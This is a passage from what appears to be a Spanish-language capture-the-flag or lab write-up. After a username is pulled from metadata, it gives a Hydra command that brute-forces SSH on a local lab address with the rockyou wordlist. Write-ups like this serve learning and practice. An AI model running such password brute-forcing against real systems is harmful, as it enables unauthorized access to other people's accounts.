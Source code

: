 <p align="center">
    <img src="../img/Pasted_image_20250101194118.png" width="500">
</p>

Los metadatos nos arroja un usuario `borazuwarah`. Así que teniendo el usuario, podemos realiza fuerza bruta al protocolo `SSH` por medio de `HYDRA`.

## Explotación

#### Hydra
Teniendo un usuario, realizamos la fuerza bruta para encontrar la contraseña de dicho usuario
```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64
```

<p align="center">
    <img src="../img/Pasted_image_20250101194409.png" width="500">
</p>
